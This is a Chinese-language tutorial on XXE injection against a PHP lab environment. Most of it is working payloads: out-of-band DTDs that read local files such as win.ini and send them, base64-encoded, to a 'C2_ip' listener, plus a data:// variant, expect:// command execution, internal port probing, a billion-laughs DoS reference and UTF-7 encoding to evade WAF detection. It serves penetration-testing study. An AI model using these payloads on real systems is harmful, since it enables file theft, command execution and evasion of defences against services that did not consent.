

## 概述

xxe漏洞主要针对webservice危险的引用的外部实体并且未对外部实体进行敏感字符的过滤，从而可以造成**命令执行，目录遍历，文件读取，探测内网端口，ddos**等．首先存在漏洞的web服务一定是存在xml传输数据的，可以在http头的content-type中查看，也可以根据url一些常见的关键字进行判断测试，例如wsdl（web服务描述语言）。或者一些常见的采用xml的java服务配置文件（spring，struts2）。

## 靶场

https://github.com/c0ny1/xxe-lab

使用的php靶场；windows环境。

## 复现

**现实中存在的大多数xxe漏洞都是blind，即不可见的，必须采用带外通道进行返回信息的记录，这里简单来说就是攻击者必须具有一台具有公网ip的主机。**

A blind XXE injection callback handler. Uses HTTP and FTP to extract information:

https://github.com/TheTwitchy/xxer

启动 ftp 和 web 服务器用于作为监听 server：


vim attack.dtd:

	<!ENTITY % all
	        "<!ENTITY &#x25; send SYSTEM 'http://C2_ip:2333/?%file;'>"
	>
	%all

payload:

	<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE ANY [
	<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/Windows/win.ini">
	<!ENTITY % xxe2 SYSTEM "http://C2_ip:2333/attack.dtd">
	%xxe2;
	%send;
	]>
	<user><username></username><password></password></user>

通过 %xxe2; 和 %send; 调用执行。 


将传输的内容base64还原。

### 外带数据方法二

vim attack.dtd:

	<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/Windows/win.ini">
	<!ENTITY % int "<!ENTITY &#x25; send SYSTEM 'http://C2_ip:2333/?%file;'>">


payload:

	<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE root[
	<!ENTITY % dtd SYSTEM "http://C2_ip:2333/attack.dtd"> 
	%dtd;%int;%send;>
	]>



#### php://filter

1. 编码写入

	index.php?file2=php://filter/write=convert.base64-encode/resource=test.txt&txt=Qftm

2.  编码读取

	index.php?file1=php://filter/read=convert.base64-encode/resource=file.txt


**PS:**

1.如果直接使用%号的话，会出现下面的报错

```DOMDocument::loadXML(): Entity Value: ‘%’ forbidden except for entities```

**报错已经说的很清楚，%不允许出现在Entity的value中，所以需要将%进行Unicode编码为 &#37; 或者 &#x25;(转化成Unicode编码有两种形式，以&#后接十进制数字，&#x后接十六进制数字)**

2.php://filter，没直接使用 file:///etc/passwd

因为字符的原因，虽然没有在xml中加特殊字符，但是关于字符，有可见字符，也有不可见字符，所以这种情况，需要十六进制（xxd或者hexdump -C）显示一下是否有系统自己添加的特殊字符，就像echo "hello" > joker，echo命令本身就是回车显示，所以看似没有问题的URL，其实有一个小小的回车(0a)存在，导致保存，无法识别file读取的url路径。所以目前最好的方法就是利用php://filter流来读取文件。

## 扩展

XML在各语言下支持的协议有:


### data 协议

payload:

	<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE root[ <!ENTITY % xxe SYSTEM "data://text/plain;base64,PCFFTlRJVFkgJSBkdGQgU1lTVEVNICdodHRwOi8vMTE0LjExNi4yNTMuMTQ4OjIzMzMvMDEuZHRkJz4="> 
	%xxe;
	%dtd;%int;%send;
	]>

base64 解码后为：

	<!ENTITY % dtd SYSTEM 'http://c2_ip:2333/01.dtd'>

### 命令执行及探测内网端口

https://www.cnblogs.com/linuxsec/articles/11666923.html

	<?xml version="1.0"?>
	    <!DOCTYPE Quan[
	    <!ENTITY f SYSTEM "expect://id">
	]>
	
	<hhh>&f;<hhh>

	<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE note[
	    <!ENTITY Quan SYSTEM "http://192.168.246.136:80">
	]>
	
	<reset><login>&Quan;</login><secret>Any bugs?</secret></reset>

类似于 jackson/fastjson 攻击。 

### XXE DOS

https://en.wikipedia.org/wiki/Billion_laughs_attack

实际效果未验证。


## 检测绕过

### utf7编码绕过


将打算使用utf-7编码的payload 复制到 a.xml 中，


安装linux编码转换工具 recode:

	yum install recode -y

将 utf-8 转换为 utf-7:

	recode UTF8..UTF7 a.xml

转换成功！


将转换好的payload复制，并添加 utf-7 头，```<?xml version="1.0" encoding="UTF-7"?>```，成功外带数据！

	<?xml version="1.0" encoding="UTF-7"?>
	+ADwAIQ-DOCTYPE root+AFs +ADwAIQ-ENTITY +ACU dtd SYSTEM +ACI-http://c2_ip:2333/01.dtd+ACIAPg 
	+ACU-dtd+ADsAJQ-int+ADsAJQ-send+ADsAPg
	+AF0APg-


## 参考资料

[XML中关于DTD类型（内部（SYSTEM）的和外部（PUBLIC）的区别）](https://www.cnblogs.com/happyting/archive/2010/05/07/1729999.html)

[java环境下利用blind xxe来列目录和文件读取](http://www.voidcn.com/article/p-njawsjxm-ko.html)

[bwapp亲测xxe漏洞](https://www.cnblogs.com/bmjoker/p/9626241.html)

[Github-XML External Entity (XXE) Injection **Payload List**](https://github.com/payloadbox/xxe-injection-payload-list)

[包含gopher/jar等协议的，XML外部实体（XXE）注入详解](https://www.cnblogs.com/backlion/p/9302528.html)

[绕过WAF保护的XXE](https://xz.aliyun.com/t/4059)

[get型xxe参考-DuckDuckGo搜索引擎的XXE漏洞](https://nosec.org/home/detail/2219.html)

[JAVA常见的XXE漏洞写法和防御](https://blog.spoock.com/2018/10/23/java-xxe/)


[**带外通道技术（OOB）总结**](https://blog.csdn.net/Eagle_pompom/article/details/89525663)


